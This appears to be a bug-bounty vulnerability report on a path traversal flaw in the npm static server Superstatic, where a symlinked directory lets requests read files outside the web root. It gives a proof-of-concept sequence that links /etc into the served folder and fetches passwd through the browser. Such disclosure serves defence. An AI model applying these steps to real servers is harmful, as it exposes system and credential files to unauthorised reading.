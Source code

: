# Description

Path traversal vulnerability in Superstatic when symlnking directories instead of files
Allowing an attacker to read system files

# Module
module name: Superstatic
version: 6.0.4
npm page: https://www.npmjs.com/package/superstatic

Module Description

Superstatic is an enhanced static web server that was built to power. It has fantastic support for HTML5 pushState applications, clean URLs, caching, and many other goodies.
By default, Superstatic will simply serve the current directory

# Weekly Downloads

335,788

# Vulnerability Description

With a symbolically linked **directory** in the working directory, it is possible to read arbitrary files outside of the web root directory.

# POC

1)Install the Superstatic module
$ npm install -g superstatic

2)Make a directory
$ mkdir test

3)Go to 'test' directory
$ cd test

4)create a symlink file to directory
ln -s /etc/ 'dirname'

5)Run Superstatic module
$ Superstatic

6)Request the file within browser
http://localhost:3474/'dirname'/'regularfile'
http://localhost:3474/poc/passwd

7)Content of file is returned to browser

# References

Reports for file symlink path traversal

https://www.huntr.dev/bounties/1-npm-superstatic/

https://hackerone.com/reports/510043
https://hackerone.com/reports/695416


# Impact
This could have enabled an attacker to view system files and leverage attacks like remote code execution and so on